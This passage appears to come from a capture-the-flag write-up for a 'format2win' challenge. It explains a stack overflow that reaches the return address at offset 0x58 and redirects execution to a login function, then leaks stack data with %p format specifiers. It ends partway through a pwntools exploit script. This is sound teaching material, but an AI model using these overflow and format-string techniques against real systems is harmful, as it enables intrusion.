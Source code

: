 ![IMG](/assets/images/boh2022-format2win/img6.png)

From the picture above, we can see that to overflow to the return address, we need to overflow other variables along the way, where in our case the `local_c` will also be affected. Besides, we can see the amount of bytes required to reach return address which is `0x58` bytes. After that, we need to overwrite the return address to point it to address of `login` function, below is the illustration diagram:

![IMG](/assets/images/boh2022-format2win/img7.png)

Now we are in the login function, we will be inserting bunch of `%p` to leak data from the stack. Below is the exploit to test it locally:
```py
from pwn import *

# Set up pwntools for the correct architecture
exe = './format2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# Start program
#io = remote("18.143.17.69", 9001)
io = process(exe)

offset = 0x58

```